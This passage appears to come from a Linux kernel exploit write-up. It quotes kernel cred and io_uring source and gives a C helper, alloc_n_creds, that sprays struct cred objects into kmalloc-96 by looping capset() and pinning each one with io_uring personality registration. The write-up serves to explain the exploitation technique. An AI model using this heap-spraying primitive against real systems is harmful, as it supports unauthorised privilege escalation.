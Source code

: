 ```c 

	return commit_creds(new);

error:
	abort_creds(new);
	return ret;
}
```

`new = prepare_creds()` will allocate a new `struct cred` and `return commit_creds(new)` will replace our current task its cred with `new_cred`. To prevent the old cred from being freed, we can actually reuse the `io_uring` primitive we used for spraying kmalloc-96!

```c 
static int io_register_personality(struct io_ring_ctx *ctx)
{
	struct io_identity *iod;
	u32 id;
	int ret;

	iod = kmalloc(sizeof(*iod), GFP_KERNEL); /* sizeof (*iod) == 72 -> kmalloc-96 */
	if (unlikely(!iod))
		return -ENOMEM;

	io_init_identity(iod);
	iod->creds = get_current_cred();

	ret = xa_alloc_cyclic(&ctx->personalities, &id, (void *)iod,
			XA_LIMIT(0, USHRT_MAX), &ctx->pers_next, GFP_KERNEL);
	if (ret < 0) {
		put_cred(iod->creds);
		kfree(iod);
		return ret;
	}
	return id;
}
```

`get_current_cred()` will take an extra reference to the current tasks cred and store it in the io_uring context. We can combine this with capset in the following way:

```c 
static int alloc_n_creds(int uring_fd, size_t n_creds)
{
    for (size_t i = 0; i < n_creds; i++) {
        struct __user_cap_header_struct cap_hdr = {
            .pid = 0,
            .version = _LINUX_CAPABILITY_VERSION_3
        };

        struct user_cap_data_struct cap_data[2] = {
            {.effective = 0, .inheritable = 0, .permitted = 0},
            {.effective = 0, .inheritable = 0, .permitted = 0}
        };

        /* allocate new cred */
        if (syscall(SYS_capset, &cap_hdr, (void *)cap_data))
            fatal("capset() failed");

        /* increment refcount so we don't free it afterwards*/
        if (syscall(SYS_io_uring_register, uring_fd, IORING_REGISTER_PERSONALITY, 0, 0) < 0)
            fatal("io_uring_register() failed");
    }
}
```

